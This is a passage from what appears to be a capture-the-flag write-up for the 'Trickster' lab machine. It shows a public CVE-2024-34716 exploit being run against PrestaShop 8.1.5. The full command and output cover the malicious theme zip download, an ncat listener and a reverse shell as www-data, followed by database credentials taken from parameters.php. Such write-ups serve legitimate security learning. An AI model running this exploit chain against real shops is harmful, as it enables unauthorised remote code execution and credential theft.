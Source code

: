 ## Initial Foothold

### PrestaShop Exploitation

Discovered PrestaShop 8.1.5 was vulnerable to CVE-2024-34716. Used the [publicly available exploit](https://github.com/aelmokhtar/CVE-2024-34716) which has this associated [write-up](https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/).

After reading through the exploit PoC, we run it against our target:
```bash
❯ python exploit.py --url http://shop.trickster.htb/ --email admin@trickster.htb --local-ip 10.10.14.235 --admin-path admin634ewutrx1jgitlooaj

[X] Starting exploit with:
	Url: http://shop.trickster.htb/
	Email: admin@trickster.htb
	Local IP: 10.10.14.235
	Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 8181
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.129.234.38 - - [19/Jan/2025 14:00:21] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
Ncat: Connection from 10.129.234.38:37016.
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 20:00:24 up 31 min,  0 users,  load average: 1.35, 0.49, 0.72
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Successfully obtained a reverse shell as www-data.

## Lateral Movement 

### Database Enumeration

Found a PrestaShop configuration file containing database credentials in a file named `parameters.php`:
```php
'database_user' => 'ps_user',
'database_password' => 'prest@shop_o'
```
